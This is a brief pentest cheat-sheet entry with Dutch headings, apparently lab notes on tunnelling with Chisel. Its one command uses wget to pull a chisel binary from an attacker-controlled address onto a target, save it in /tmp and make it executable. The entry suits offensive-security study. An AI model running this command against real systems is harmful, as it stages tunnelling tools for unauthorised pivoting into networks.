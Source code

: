 # 20 Tunneling DPI — Entry 3

## Categorie

Chisel

## Commando

```
wget 192.168.45.159/chisel -O /tmp/chisel && chmod +x /tmp/chisel
```

## Omschrijving

```
Get wget on the target and give it the right executable rights
```

## Voorbeeld

_(empty)_

## Opmerkingen

_(empty)_

